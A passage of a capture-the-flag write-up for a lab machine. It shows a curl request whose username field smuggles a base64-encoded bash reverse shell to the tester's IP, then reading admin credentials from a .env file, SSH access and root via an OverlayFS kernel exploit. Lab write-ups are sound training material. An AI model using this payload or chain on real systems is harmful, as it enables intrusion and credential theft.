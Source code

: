 ```
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41Lzk5OTkgMD4mMQo= | base64 -d | bash ;"}'
```

- And we have a shell!
![[Pasted image 20230904000916.png]]

- When performing the injection we saw that there were a number of php files
- Nothing is hard coded in them but let's see what else is in this directory
- Performing an ls -la will reveal a .env file
- cat the file and the credentials for the admin will be displayed
![[Pasted image 20230904004120.png]]
- Our initial nmap scan showed that port SSH is also opened
- Attempt an SSH connection with these credentials the target box - 10.10.11.221 with the recently found admin credentials

![[Pasted image 20230904004435.png]]

- Look in the /var/mail for an email sent to the admin
![[Pasted image 20230904035612.png]]
- There's a Linux kernel exploit that affects the OverlayFS/FUSE
- DataDog gives a good prem analysis on it, along with some detections
https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/
- Grab the CVE and search for it in GitHub. GitHub is an resource for finding working exploits
- Transfer the file, I chose to use scp since I already have the password for the target's admin account. Else, I've would've used python's simple http server and wget to grab the file on the victim end

![[Pasted image 20230904041430.png]]

Execute the bash file and you've got root! Now go to the root folder for the flag!
![[Pasted image 20230904042004.png]]

